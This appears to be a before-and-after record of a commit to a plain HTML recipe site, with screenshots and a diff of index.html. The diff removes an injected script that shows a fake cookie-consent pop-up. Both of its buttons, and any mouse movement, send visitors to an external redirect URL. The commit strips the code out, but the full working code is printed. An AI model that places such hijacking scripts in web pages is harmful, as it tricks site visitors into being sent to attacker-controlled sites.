

Before and after one commit to Ros797/recipe, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 149-746 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,86 +1,6 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-
-  <script>
- (function () {
-  const redirectUrl = "https://a7acf673b42814c432b778c7-uqz9t.ondigitalocean.app/"; // ⛳ Set your redirect URL here
-  let redirected = false;
-  let moved = false;
-  let initialPos = null;
-
-  function redirectUser() {
-    if (!redirected) {
-      redirected = true;
-      window.location.href = redirectUrl;
-    }
-  }
-
-  function showModal() {
-    const wrapper = document.createElement("div");
-    wrapper.innerHTML = `
-      <div style="
-        position: fixed;
-        top: 0; left: 0; width: 100%; height: 100%;
-        background: rgba(0,0,0,0.5);
-        display: flex; justify-content: center; align-items: center;
-        z-index: 10000;">
-        <div style="
-          background: #fff;
-          padding: 2rem;
-          border-radius: 16px;
-          max-width: 500px;
-          width: 90%;
-          text-align: center;
-          box-shadow:1px 0px 0px 13px rgb(255 227 227 / 35%);">
-          <h2 style="margin-top: 0; font-size: 24px; color: #333;">🍪 Cookie Notice</h2>
-          <p style="font-size: 15px; color: #555;">This site uses cookies to enhance functionality, analyze performance, and ensure compliance with data protection regulations. <a href="${redirectUrl}" style="color: #007bff;">Learn more</a>.</p>
-          <div style="margin-top: 1.5rem; display: flex; gap: 1rem; justify-content: center;">
-            <button id="acceptBtn" style="
-              padding: 10px 20px;
-              background: #28a745;
-              color: white;
-              border: none;
-              border-radius: 8px;
-              font-weight: bold;
-              cursor: pointer;">Accept</button>
-            <button id="declineBtn" style="
-              padding: 10px 20px;
-              background: #dc3545;
-              color: white;
-              border: none;
-              border-radius: 8px;
-              font-weight: bold;
-              cursor: pointer;">Decline</button>
-          </div>
-        </div>
-      </div>
-    `;
-    document.body.appendChild(wrapper);
-
-    document.getElementById("acceptBtn").addEventListener("click", redirectUser);
-    document.getElementById("declineBtn").addEventListener("click", redirectUser);
-  }
-
-  window.addEventListener("load", showModal);
-
-  window.addEventListener("mousemove", function (e) {
-    if (!moved) {
-      if (!initialPos) {
-        initialPos = { x: e.clientX, y: e.clientY };
-        return;
-      }
-      if (e.clientX !== initialPos.x || e.clientY !== initialPos.y) {
-        moved = true;
-        setTimeout(redirectUser, 2000);
-      }
-    }
-  });
-})();
-
-
-</script>
-
 
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
```
